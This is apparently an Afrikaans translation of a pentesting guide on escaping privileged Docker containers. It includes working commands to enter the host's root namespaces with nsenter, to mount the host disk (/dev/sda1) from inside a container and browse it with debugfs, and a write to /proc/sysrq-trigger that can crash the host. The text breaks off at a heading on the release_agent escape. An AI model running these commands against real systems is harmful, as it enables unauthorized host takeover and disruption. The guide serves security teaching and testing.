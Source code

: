 ### Bevoorregte + hostPID

Met hierdie toestemmings kan jy net **beweeg na die namespace van 'n proses wat op die gasheer as root hardloop** soos init (pid:1) deur net te hardloop: `nsenter --target 1 --mount --uts --ipc --net --pid -- bash`

Toets dit in 'n houer deur uit te voer:
```bash
docker run --rm -it --pid=host --privileged ubuntu bash
```
### Bevoorreg

Net met die bevoorregte vlag kan jy probeer om **toegang tot die gasheer se skyf** te kry of probeer **ontsnap deur die release\_agent of ander ontsnappings te misbruik**.

Toets die volgende omseilings in 'n houer uit te voer:
```bash
docker run --rm -it --privileged ubuntu bash
```
#### Monteer Disk - Poc1

Goed geconfigureerde docker-houers sal nie opdragte soos **fdisk -l** toelaat nie. Tog, op 'n verkeerd gekonfigureerde docker-opdrag waar die vlag `--privileged` of `--device=/dev/sda1` met kapitaliseer gespesifiseer is, is dit moontlik om die regte te kry om die gas-aandrywing te sien.

![](https://bestestredteam.com/content/images/2019/08/image-16.png)

Dus, om die gasmasjien oor te neem, is dit triviaal:
```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```
En voilà! Jy kan nou toegang kry tot die lêersisteem van die gasheer omdat dit in die `/mnt/hola`-vouer gemoniteer is.

#### Montering van Skyf - Poc2

Binne die houer kan 'n aanvaller probeer om verdere toegang tot die onderliggende gasheer-OS te verkry deur 'n skryfbare hostPath-volume wat deur die groep geskep is. Hieronder is 'n paar algemene dinge wat jy binne die houer kan nagaan om te sien of jy hierdie aanvallervektor kan benut:
```bash
### Check if You Can Write to a File-system
echo 1 > /proc/sysrq-trigger

### Check root UUID
cat /proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300

# Check Underlying Host Filesystem
findfs UUID=<UUID Value>
/dev/sda1

# Attempt to Mount the Host's Filesystem
mkdir /mnt-test
mount /dev/sda1 /mnt-test
mount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```
#### Bevoorregte Ontsnapping deur gebruik te maak van bestaande release\_agent ([cve-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)) - PoC1
